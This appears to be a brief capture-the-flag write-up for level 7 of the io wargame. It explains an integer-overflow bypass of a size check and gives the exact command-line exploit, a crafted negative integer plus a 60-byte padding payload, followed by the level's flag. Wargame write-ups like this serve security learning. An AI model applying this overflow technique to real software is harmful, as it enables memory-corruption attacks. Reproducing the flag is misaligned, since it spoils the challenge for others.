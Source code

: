 Integer Overflow.

To bypass the less than check, the number has to be such that it is interpreted as negative.
Also, when multiplied by 4 or num<<2, the num should become positive.

So, took number = 10000000000000000000000000010000 = -2147483632.
When multiplied by 4, the number becomes positive and large enough to overflow the buffer.

level7@io:/levels$ ./level07 -2147483632 `python -c 'print "A"*60 + "\x46\x4c\x4f\x57"'`

Flag: `31L5mKO0ZwTrLeFe`